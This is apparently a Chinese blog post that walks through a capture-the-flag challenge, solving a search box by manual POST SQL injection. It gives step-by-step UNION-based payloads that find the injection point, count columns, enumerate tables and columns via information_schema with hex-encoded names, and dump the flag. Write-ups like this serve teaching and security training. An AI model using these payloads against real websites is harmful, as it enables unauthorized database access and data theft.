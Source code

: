 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
---
```


## 原理:
> 简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为--- http://www.xxx.com?test=123 ---，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:
>
>一个简单的输入搜索框

## 考察点：
>sql注入中的post注入。
>一般有两种方式：
>第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。
>第二种方式，通过手工注入，构造payload，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：
>1.首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：1.用户可以控制传参，2.用户输入的语句被带入数据库进行查询。

>2.Post data 框 输入search=' ，发现页面出错，可知存在注入的可能。继续输入search=' and 1=1，发现依然报错，search=' and 1=1# 发现变回正常页面。证明存在注入点，可用'  #进行闭合。
>如何理解所构造的payload？
>
>OK,简单的解释一下SQL语句.我们搜索的内容是--- ' and 1=1 # ---,代入到数据库的语句是:--- select * from XXX where search = ' ' and 1=1 #' ---，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:--- select * from XXX where content = ' ' and 1=1 ---,这个语句理解就很简单了。

> 3.用order by 查询当前页面连接的列名个数：--- search=' order by 1# ---页面返回正常 ，直到4，页面开始出错，说明有3个。

> 4.使用union 联合查询 显错点，输出点，语句：--- search='  union select 1,2,3#  ---，页面爆出显位2，3。

> 5.OK,接下来的步骤就很容易了，利用hackerbar插件，构造--- search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# ---,得到数据库名为news。

> 6.接着获取表名，构造--- search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # ---，得到表名为f1agfl4gher3。

> 注意：这里需要把数据库名称“news”做了一个16进制Hex编码，编码之后为---0x6E657773 ---。

>7.同理获取列名：--- search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# --- ，得到列名为h3r31sfl4g。

> 8.最后获取数据，--- search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # ---，得到flag！

> --- flag{sql_ information_ schema_ hack} ---





>[参考链接（一）：](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)
>[参考链接（二）：](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
